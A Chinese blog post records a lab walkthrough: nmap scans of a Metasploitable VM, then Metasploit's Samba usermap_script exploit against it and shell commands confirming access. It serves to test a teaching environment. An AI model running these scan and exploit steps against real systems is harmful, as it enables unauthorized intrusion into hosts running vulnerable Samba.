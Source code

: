 ```yaml
---
title: kali 渗透攻击Samba服务
date: 2018-11-27 15:55:54
tags:
---
```


  公司网站开发需要测试一下教学网站中的实验部分（一人两台实验机器，其中一台为kali，另一台为metasploitable）,看一下是否能正常使用。对kali工具不熟悉，找了几篇博客，并将主要流程记录下来。
<!--more-->

使用postman发送请求，将两台虚拟机镜像的ID封装成json对象。后端接收到数据后，生成对应的虚拟机，打开openstack的dashboard可以看到生成两个虚拟机，信息如下(主要看主机名和IP)：
![](实例信息.png)
后台返回kali的url。将url复制到浏览器中后开始操作。

#### 准备工作
nmap是一款专用的端口扫描工具，主要使用该工具发现局域网中的主机，和主机开放的端口。
- 主机扫描
```
nmap -sP 172.0.0.0-100
```
该命令是扫描发现局域网下IP为172.0.0.0-172.0.0.100下可以ping通的IP,结果如下。
![](端口扫描.png)
由图片可知，已经发现了IP为172.0.0.13的虚拟机。

- 端口扫描
```
nmap -sV 172.0.0.13 -A
```
该命令是发现主机开发的端口，通过扫描可以发现该主机开放了一些存在高危漏洞的端口。
![](端口扫描.png)
上图所示是该主机开放的所有端口，其中知道比较多的139、445等高危端口是开放的。

- 渗透攻击Samba服务
Samba服务对应的端口有139和445等，只要开启这些端口后，主机就有可能存在Samba远程溢出漏洞。以下是攻击步骤：
1. 启动MSF终端
```
msfconsole
```
2. 使用smb_version模块
```
use exploit/multi/samba/usermap_script
```
3. 设置RHOST选项
```
set RHOST 172.0.0.13
```
4. 启动渗透攻击
```
exploit
```
5. 等待完成，如果成功。使用Linux命令查询主机相关信息。例如查询系统当前用户和ip地址
```
whoami
ip address
```
![](渗透攻击.png)
这只是其中的一种漏洞，因为metasploitable是一个人工靶机，所以教程较多，攻击流畅。下面这篇博客里面还包含了其他的一些漏洞和攻击方法，可以参考。
参考链接：[Kali-Li  nux渗透攻击应用](https://www.cnblogs.com/student-programmer/p/6728594.html)
